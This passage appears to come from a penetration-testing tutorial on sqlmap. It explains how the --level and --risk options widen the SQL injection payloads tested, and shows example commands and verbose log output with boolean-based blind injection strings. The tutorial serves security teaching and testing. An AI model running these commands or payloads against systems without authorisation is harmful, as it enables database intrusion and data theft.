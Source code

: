 On the other hand, payloads used with the default `--level` value have a considerably smaller set of boundaries:

`sqlmap -u www.example.com/?id=1 -v 3`

    ...SNIP...
    [14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
    [14:20:36] [PAYLOAD] 1 AND 7496=4313
    [14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
    [14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
    [14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
    [14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

As for vectors, we can compare used payloads as follows:

`sqlmap -u www.example.com/?id=1`

    ...SNIP...
    [14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
    ...SNIP...

`sqlmap -u www.example.com/?id=1 --level=5 --risk=3`

    ...SNIP...
    [14:46:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
    ...SNIP...
    [14:46:05] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
    [14:46:05] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
    [14:46:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
    ...SNIP...
    [14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
    [14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
    [14:46:05] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
    ...SNIP...
    [14:46:05] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
    [14:46:06] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
    [14:46:06] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
    ...SNIP...

As for the number of payloads, by default (i.e. `--level=1` `--risk=1`), the number of payloads used for testing a single parameter goes up to 72, while in the most detailed case (`--level=5` `--risk=3`) the number of payloads increases to 7,865.

As SQLMap is already tuned to check for the most common boundaries and vectors, regular users are advised not to touch these options because it will make the whole detection process considerably slower. Nevertheless, in special cases of SQLi vulnerabilities, where usage of OR payloads is a must (e.g., in case of login pages), we may have to raise the risk level ourselves.
